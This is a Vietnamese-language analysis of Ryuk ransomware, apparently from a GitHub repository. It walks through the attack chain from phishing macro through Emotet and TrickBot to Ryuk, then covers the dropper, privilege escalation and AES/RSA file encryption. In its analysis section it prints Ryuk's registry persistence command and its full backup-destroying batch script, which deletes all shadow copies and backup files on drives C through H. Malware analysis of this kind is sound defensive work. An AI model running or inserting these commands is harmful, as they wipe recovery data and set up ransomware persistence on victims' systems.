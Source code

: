 > Tên tài liệu: _Ryuk ransomware analysis_  
> Thực hiện: _Dat_  
> Cập nhật lần cuối: _25/08/2025_
## Mục lục:
1. [Attack chain](#a)
2. [Phân tích Ryuk](#b)
3. [Encryption](#c)

## Nội dung
<a name="a"></a>
### 1. Attack chain
<img width="1153" height="424" alt="image" src="https://github.com/user-attachments/assets/33a72cd1-def2-4dfd-a3de-507654079894" />
> Workflow:

- Phishing email: word document chứa macro
- Download Emotet thông qua kích hoạt macro
- Emotet download TrickBot - malware có thể system information, steal credentials, disable AV, lateral movement,...
- Connect C&C để download Ryuk để lây nhiễm và mã hóa hệ thống trong mạng.

Ryuk hoạt động 2 giai đoạn:
- Drop real Ryuk ransomware
- Injection running process, sửa đổi registry thông qua cmd
<img width="1491" height="472" alt="2" src="https://github.com/user-attachments/assets/9f485985-3fcf-400a-879c-3e78cbf988de" />

<a name="b"></a>
### 2. Phân tích Ryuk 
#### Cơ chế hoạt động
> Dropper
- Kiểm tra windows MajorVersion để quyết định vị trí drop real ransomware ryuk
  - Windows 2000 | Windows XP | Windows Server 2003: C:\Documents and Settings\Default User\
  - Windows Vista or later: C:\Users\Public\
- Random name ransomware: random 5 kí tự
- Kiểm tra kiến trúc máy tính để quyết định write payload 64 bit hay 32 bit
- Gọi ShellExecuteW() để execute
> Ransomware
- Xóa dropper
- Persistence: C:\Windows\System32\cmd.exe /C REG ADD "HKEY_CURRENT_USER\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /v "svchos" /t REG_SZ /d "C:\users\Public\BPWPc.exe" /f
- Privilege Escalation: sử dụng AdjustTokenPrivileges() để enable SeDebugPrivilege --> tác động đến các running process
- Injection chính nó vào các process (ngoại trừ các process running NT AUTHORITY)
- Sử dụng obfuscation với các import function
- Killing process sử dụng `net stop` and `taskkill`
- Delete backup: drop script tại C:\Users\Public\window.bat để xóa tất cả shadow copies, backups và tự xóa nó.
```
vssadmin Delete Shadows /all /quiet
vssadmin resize shadowstorage /for=c: /on=c: /maxsize=401MB
vssadmin resize shadowstorage /for=c: /on=c: /maxsize=unbounded
vssadmin resize shadowstorage /for=d: /on=d: /maxsize=401MB
vssadmin resize shadowstorage /for=d: /on=d: /maxsize=unbounded
vssadmin resize shadowstorage /for=e: /on=e: /maxsize=401MB
vssadmin resize shadowstorage /for=e: /on=e: /maxsize=unbounded
vssadmin resize shadowstorage /for=f: /on=f: /maxsize=401MB
vssadmin resize shadowstorage /for=f: /on=f: /maxsize=unbounded
vssadmin resize shadowstorage /for=g: /on=g: /maxsize=401MB
vssadmin resize shadowstorage /for=g: /on=g: /maxsize=unbounded
vssadmin resize shadowstorage /for=h: /on=h: /maxsize=401MB
vssadmin resize shadowstorage /for=h: /on=h: /maxsize=unbounded
vssadmin Delete Shadows /all /quiet
del /s /f /q c:\*.VHD c:\*.bac c:\*.bak c:\*.wbcat c:\*.bkf c:\Backup*.* c:\backup*.* c:\*.set c:\*.win c:\*.dsk
del /s /f /q d:\*.VHD d:\*.bac d:\*.bak d:\*.wbcat d:\*.bkf d:\Backup*.* d:\backup*.* d:\*.set d:\*.win d:\*.dsk
del /s /f /q e:\*.VHD e:\*.bac e:\*.bak e:\*.wbcat e:\*.bkf e:\Backup*.* e:\backup*.* e:\*.set e:\*.win e:\*.dsk
del /s /f /q f:\*.VHD f:\*.bac f:\*.bak f:\*.wbcat f:\*.bkf f:\Backup*.* f:\backup*.* f:\*.set f:\*.win f:\*.dsk
del /s /f /q g:\*.VHD g:\*.bac g:\*.bak g:\*.wbcat g:\*.bkf g:\Backup*.* g:\backup*.* g:\*.set g:\*.win g:\*.dsk
del /s /f /q h:\*.VHD h:\*.bac h:\*.bak h:\*.wbcat h:\*.bkf h:\Backup*.* h:\backup*.* h:\*.set h:\*.win h:\*.dsk
del %0
```

<a name="c"></a>
### 3. Encryption
- Sử dụng multi threading: tại một thread mới cho mỗi file mã hóa
- Liệt kê file --> mỗi file mỗi thread --> mã hóa
  - Tránh các file có extensions: .dll, .exe, .ink, .hrmlog, .ini
- Tạo random key AES 256 cho mỗi thread mã hóa file
- AES key được mã hóa với RSA public key
- Ryuk write metadata gồm 274 bytes ở cuối mỗi file mã hóa, với 6 bytes đầu `HERMES`, 12 byte blob RSA information, 256 bytes encypted key
- Liệt kê network share với WNetOpenEnumW() và WNetEnumResourceA() và tiếp tục mã hóa 






